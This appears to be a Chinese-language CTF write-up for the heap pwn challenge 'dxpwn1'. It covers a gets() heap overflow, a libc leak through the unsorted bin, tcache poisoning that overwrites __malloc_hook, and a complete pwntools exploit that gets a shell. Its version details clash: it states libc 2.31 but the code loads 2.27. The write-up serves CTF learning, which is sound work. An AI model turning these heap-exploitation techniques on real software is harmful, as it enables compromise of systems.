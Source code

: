 ```yaml
---
sort: 1
---
```


# dxpwn1

## 0x00 题面

题目链接: [D:\ctf\pwn\dxpwn1\pwn1](D:\ctf\pwn\dxpwn1\pwn1)
题目给了我们 libc，版本为 2.31，猜测可能与 tcache attack 相关。

## 0x01 思路

1. 首先对文件进行例行检测：

- 程序类型：

  ![](vx_images/4557509111142.png)

- 程序保护情况

  ![](vx_images/2752710129568.png)

  保护全开

2. 运行查看

   ![](vx_images/852511117435.png)

   发现是程序提供了类似于留言板的功能，有增删查 3 个模块，大概率是 heap 的题型。

3. 使用 IDA Pro 进行反编译静态分析

- main()函数

  ![](vx_images/1101214137601.png)

  根据用户的输入进入对应的功能模块

- create()增加留言

  ![](vx_images/298015130270.png)

  发现程序在 bss 段定义了一个堆指针`chunk_header`, 用于指向堆块(chunk). 每次创建留言时, 程序会申请`0x80`大小的 chunk, 随后让用户输入. 但是注意, 这里使用了`gets()`进行输入的读取, 该函数是不安全的, 不会对输入长度进行检查, 可以进行堆溢出. 输入结束后, 将本次申请的 chunk 地址存到`chunk_header`数组中. 还要注意的是, `gets`会自动在字符串末尾追加`\x00`, 进行地址泄露的时候会有点麻烦.

- drop()删除留言

  ![](vx_images/1292137126825.png)

  这段代码会`free`指定索引的 chunk, 并且将`chunk_header`指针置 0, 因此不能直接进行`UAF`手段

- view()查看留言

  ![](vx_images/5528838122579.png)

  这段代码会将指定索引的 chunk 打印出来, 注意这里使用了 printf 的打印方法, 会被`\x00`截断.

4. 分析

对于堆溢出的题目, 我们 getshell 的常用手段是设法申请到`__malloc_hook`或`__free_hook`地址处的堆块, 并写入 libc 的 one_gadget.

程序在申请堆块的时候, 存在溢出点, 我们可以无限地向堆块中写入字符, 而堆块大小是恒定. 为了达成申请到`__malloc_hook`地址处的堆块, 我们需要:

- 设法泄露处 libc 的基地址
- 利用 tcache 毒化, 将`__malloc_hook`地址放到 tcache 列表

## 0x02 编写 exp

1. 泄露 libc 地址

为了泄露 libc 地址, 我们需要借助到`unsorted bin`, 因为`unsorted bin`链表头的'fd'是于 libc 的`main_arena`相邻的, 通过`main_arena`可以推算出`__malloc_hook`地址与 libc 版本.

而为了能让 chunk 在`free()`后能进入`unsorted bin`, 我们需要使用溢出的方式, 修改下一个相邻 chunk 的 size 字段. 由于 tcache 的范围是`[0x10, 0x410)`, 而为了方便接下来的利用, size 最好还是`0x80`的整数倍, 因此选择将下一个相邻的 chunk 的 size 大小改为`0x480`

```python
    # 1st step: 泄露libc地址
    create('aaaa') # idx0, 用于溢出下一个chunk
    for i in range(9):
        create('bbbb') # idx1 to idx 9, 0x480=0x48 * 9, 用于进入unsorted bin的chunk
    # 使用溢出的手段, 让idx1的size处于unsorted bin的范围
    drop(0) # 由于程序没有修改的功能, 所以通过先删除再申请的功能写入payload
    payload = b"a"*0x88 + p64(0x481)
    create(payload) # 进行溢出
    # free idx1, 此时的idx1会处于unsorted bin中
    drop(1)
    # 现在tcache lise是空的, 因此下一个新申请的chunk会从unsorted bin头部分割出来
    create('dddd') # idx1
    # 这个时候 idx1-0x80是unsorted bin的链表头地址
    # 但是同时他也是idx2的地址, 因此我们直接查看idx2即可获取libc的地址
    view(2)
    p.recvuntil('content: ')
    main_arena_addr = u64(p.recv(6).ljust(8, b'\x00'))-96
    malloc_hook = main_arena_addr-0x10  # malloc_hook与main_arena的偏移量是个定值
    success(f"main_arena address => {hex(main_arena_addr)}")

    libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
    one_gadget = 0x10a41c # 0x4f3d5, 0x10a41c, 0x4f432, 通过one_gadget获取
    libc_base = malloc_hook - libc.symbols['__malloc_hook']
    success(f"libc_base addr => {hex(libc_base)}")
```

2. 毒化 tcache 链表

为了能申请到`__malloc_hook`, 我们使用`tcache poisoning`的技术, 篡改 tcache 链表.

```python
    # 2nd step, tcache poisoning
    # 新申请3个chunk便于后续操作
    create('aaaa') # idx10, 用于溢出
    create('aaaa') # idx11
    create('aaaa') # idx12
    drop(12)
    drop(11) # 此时的tcache list: idx11 -> idx12 -> 0
    drop(10) # 先删除再申请回来, 用于写入paylaod

    payload = b'a'*0x88 + p64(0x91) + p64(malloc_hook)  # payload会将idx11的fd字段改为__malloc_hook的地址
    create(payload) # 此时的tcache list: idx11 -> malloc_hook

    # 3rd step, getshell
    payload = p64(libc_base + one_gadget) # libc中执行system('/bin/sh')的地址
    create('aaaa') # idx11, 此时的tcache list: malloc_hook
    create(payload) # 这一步已经修改了`__malloc_hook`的指向了

    p.sendafter(">> ", "1") # 调用malloc触发`__malloc_hook`
    p.interactive() # getshell
```

完整 exp:

```python
from pwn import *
from LibcSearcher import *

'''
tips: UAF, unsorted bin leak libc, tcache poisoning, __malloc_hook
'''
p = process(['./pwn1'])

def create(content):
    p.sendafter(">> ", "1")
    p.sendlineafter("content: ", content)


def view(idx):
    p.sendafter(">> ", "3")
    p.sendlineafter('index: ', str(idx))


def drop(idx):
    p.sendafter(">> ", "2")
    p.sendlineafter("index: ", str(idx))


def exp():
    # 1st step: leak libc
    create('aaaa') # idx0, for overflowing
    for i in range(9):
        create('bbbb') # idx1 to idx 9
    # make idx1's size in range of unsorted bin
    drop(0)
    payload = b"a"*0x88 + p64(0x481)
    create(payload) # overflow
    # free idx1, and idx1 would be in unsorted bin
    drop(1)
    # now tcache list is empty, so new chunk is alloced from unsorted bin header
    create('dddd') # idx1
    # now address of idx1 - 0x80 is the header of unsorted bin
    # meanwhile, it's idx2's address, so just to print it to leak libc's address
    view(2)
    p.recvuntil('content: ')
    main_arena_addr = u64(p.recv(6).ljust(8, b'\x00'))-96
    malloc_hook = main_arena_addr-0x10
    success(f"main_arena address => {hex(main_arena_addr)}")

    libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
    one_gadget = 0x10a41c # 0x4f3d5, 0x10a41c, 0x4f432
    libc_base = malloc_hook - libc.symbols['__malloc_hook']
    success(f"libc_base addr => {hex(libc_base)}")

    # 2nd step, tcache poisoning
    create('aaaa') # idx10
    create('aaaa') # idx11
    create('aaaa') # idx12

    drop(12)
    drop(11) # tcache list: idx11 -> idx12
    drop(10)
    payload = b'a'*0x88 + p64(0x91) + p64(malloc_hook)
    create(payload) # tcache list: idx11 -> malloc_hook
    payload = p64(libc_base + one_gadget)
    create('aaaa') # idx11
    create(payload) # malloc_hook

    p.sendafter(">> ", "1") # getshell
    # create('cccc')
    p.interactive()


if __name__=="__main__":
    exp()

```

![](vx_images/643516240459.png)
